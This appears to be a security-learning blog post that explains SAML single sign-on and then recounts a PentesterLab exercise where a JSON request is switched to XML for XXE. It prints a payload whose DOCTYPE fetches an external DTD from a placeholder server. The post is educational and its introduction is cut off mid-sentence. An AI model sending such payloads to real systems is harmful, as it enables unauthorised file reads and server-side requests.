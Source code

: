 ```yaml
---
title:  "Day 41/100 Hack and Improvement"
date: 2020-06-10
tags: [Penetration Testing, Hacking, Bug Bounty, Offensive Security]
header: 
  image: "assets/images/100dl/day41/header.jpg"
---
```


Day 41 comes with s

## Security Assertion Markup Language (SAML)

From [Rajesh Ranjan](https://twitter.com/eh_rajesh). Security Assertion Markup Language, or SAML, is a standardized way to tell external applications and services that a user is who they say they are. SAML makes single sign-on (SSO) technology possible by providing a way to authenticate a user once and then communicate that authentication to multiple applications. The most current version of SAML is SAML 2.0
What is single sign-on (SSO)?
Single sign-on (SSO) is a way for users to be authenticated for multiple applications and services at once. With SSO, a user signs in at a single login screen and can then use a number of apps. Users do not need to confirm their identity with every single service they use
The implementation of SSO is easy if multiple services are located under the same parent domain. Like these two versions of Facebook

```
www.facebook.com
m.facebook.com
```

These two services are located on the same domain, facebook.com. In this case, SSO can be easily achieved by sharing cookies across subdomains

```
Set-Cookie: cookie=abc123; Domain=facebook.com; Secure; HttpOnly
```

However, cookies cannot be shared across different domains. So Facebook.com and Messenger.com cannot share cookies, because they don’t share a common parent domain
And this is where SAML comes into play.


## How does SAML work?

A typical SSO authentication process involves these three parties:
-	Principal (also known as the "subject")
-	Identity provider
-	Service provider

**Principal/subject:** This is almost always a human user who is trying to access a cloud-hosted application.


**Identity provider:** An identity provider (IdP) is a cloud software service that stores and confirms user identity, typically through a login process. Essentially, an IdP's role is to say, "I know this person, and here is what they are allowed to do.


**Service provider:** This is the cloud-hosted application or service the user wants to use. Common examples include cloud email platforms such as Gmail and Microsoft Office 365, cloud storage services such as Google Drive and AWS S3, and communications apps such as Slack and Skype.


A Basic workflow of SAML is represented below


<img src="{{ site.url }}{{ site.baseurl }}/assets/images/100dl/day41/saml.png" alt="nmap scan">

## XXE in POST Request Allowing XML and JSON in their Responses

From [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_). Couple week ago while doing couple exercises from [PentesterLab](https://pentesterlab.com/), there was something interesting that seemed amazingly similar to [this](https://twitter.com/11xuxx/status/1250764273623629826) tweet from [Ashkan Jahanbakhsh](https://twitter.com/11xuxx).

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/100dl/day41/tweet.png" alt="nmap scan">

Therefore it came pretty interesting to me that in different place where users are allowed to insert certain input in where the request ```content-type``` is JSON, it was possible to change the ```content-type``` and insert XML instead. During couple exercises from pentesterlab, it went successful by crafting the following payload in the request. 

```
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://youserver.tdt/test.dtd">
<foo>&e1;</foo>
```

Take in mind that thing such as ```<foo>``` and ```&e1;``` must change depending in the request input, and the parameters required in order to have a successful post request. Take in mind that part of the success of this attack depends also in certain tokens that the request might have, if the request has a token, the attack might not be successful. 
